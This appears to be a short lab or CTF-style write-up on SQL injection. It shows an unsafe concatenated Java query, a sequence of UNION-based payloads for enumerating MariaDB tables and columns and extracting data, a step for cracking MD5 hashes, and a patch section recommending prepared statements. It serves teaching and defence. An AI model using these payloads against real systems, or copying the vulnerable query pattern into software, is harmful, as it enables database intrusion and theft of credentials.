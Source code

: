 🚨 **EXPLOIT**

#### SQL injection

Example of unsafe query constructed with concatenation of user input :

`String query = "SELECT \* FROM accounts WHERE custID='" + request.getParameter("id") + "'";`

#### Steps
1. Find the Database system
- We can find it easily here with the input "'" that tells us the system is MariaDB.
2. Find the number of columns returned from the original query
- `1 ORDER BY X` Keep increasing `X` until an error is caused.

3. Use Union to find the 

=> tables names

`1 UNION SELECT NULL, table_name FROM information_schema.tables--`

=> columns names
`1 UNION SELECT NULL,column_name FROM information_schema.columns WHERE table_name=X`

Where X is converted in hex to avoid any filtering and any issue with the character "'".

4. Extract important information (the number of columns must match the original query)

`1 UNION SELECT a,b FROM C`

5. Decrypt from MD5
---

✅ **PATCH**

- Use prepared statements
- Use a safe API with a parameterized interface
- Sanitize the input server side (if a number is expected, only accept numbers, escape special characters like " ' , etc...")
